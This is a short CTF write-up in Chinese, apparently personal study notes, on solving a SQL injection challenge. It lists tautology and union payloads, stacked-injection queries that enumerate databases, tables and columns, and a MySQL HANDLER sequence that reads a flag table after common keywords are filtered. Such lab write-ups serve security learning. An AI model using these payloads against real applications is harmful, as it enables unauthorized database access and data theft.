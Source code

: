 ![](<./img/Pasted image 20221104194310.png>)
```sql
1' or 1=1 or '1
```
![](<./img/Pasted image 20221104194336.png>)
```sql
1' union select 1,2#
```
![](<./img/Pasted image 20221104194429.png>)

被过滤了一堆关键字呜呜呜

搜索得知这题关键为堆叠注入
```sql
1'; show databases#
```
![](<./img/Pasted image 20221104194636.png>)
```sql
1'; show tables#
```
![](<./img/Pasted image 20221104200143.png>)
```sql
1'; show columns from FlagHere#
```
![](<./img/Pasted image 20221104200444.png>)

接下来是学习时间（悲

![](<./img/Pasted image 20221104201132.png>)
```sql
0';
HANDLER FlagHere OPEN;
HANDLER FlagHere READ FIRST;
HANDLER FlagHere CLOSE;#
```
![](<./img/Pasted image 20221104201342.png>)

有点像文件句柄，学到了呜呜呜

#Web #SQL注入 #堆叠注入 